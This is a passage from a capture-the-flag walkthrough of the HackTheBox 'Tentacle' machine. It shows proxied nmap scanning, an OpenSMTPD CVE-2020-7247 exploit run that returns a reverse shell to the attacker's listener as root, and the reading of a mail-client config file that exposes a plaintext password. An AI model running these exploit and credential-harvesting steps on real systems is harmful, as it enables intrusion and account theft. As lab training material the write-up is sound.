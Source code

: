 ```bash
proxychains nmap -sT -sV -Pn 10.241.251.113 --top-ports 100
```
```c
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
Service Info: Host: smtp.realcorp.htb
```
After googling a bit about `OpenSMTPD`, I found [this](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt) article. Now time to exploit it, I tried many exploits from the internet but I'm going to recommend you to use my PoC exploit from [this](https://github.com/f4T1H21/CVE-2020-7247) link. You can see, it definitely makes sense!

```bash
┌──(root💀f4T1H)-[~/hackthebox/tentacle]
└─> proxychains -q python3 exploit.py 10.241.251.113 25 j.nakazawa@realcorp.htb 10.10.14.166 2121
[+] Opening connection to 10.241.251.113 on port 25: Done
[+] Target port is running OpenSMTPD!
[+] Sending HELO: Done
[+] Target is vulnerable!
[+] Checking the mail address: Valid
[+] Sending the payload: Done
[*] Closed connection to 10.241.251.113 port 25
---------------------------------------------------------
[+] Trying to bind to 10.10.14.166 on port 2121: Done
[+] Waiting for connections on 10.10.14.166:2121: Got connection from 10.10.10.224 on port 36780
[*] Switching to interactive mode
bash: cannot set terminal process group (545): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~> $ id
id
uid=0(root) gid=0(root) groups=0(root)
root@smtp:~> $
```
Here we finally got a shell as `root`, but in the `smtp` server.
After a bit of enumeratig, I found `msmtp` client configuration file in `/home/j.nakazawa/.msmtprc`.

```bash
root@smtp:/home/j.nakazawa> $ cat .msmtprc
cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint    C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
root@smtp:/home/j.nakazawa> $
```
And here we got some credentials: `j.nakazawa`:`sJB}RM>6Z~64_`<br>
But weirdly ssh was not working for direct login with these credentials!<br><br>
Thinking about generally a little bit, gives us the big clue: As you can remember we have a `kerberos-sec` server on the main target, which means we can use tickets to authenticate in something if it configured properly!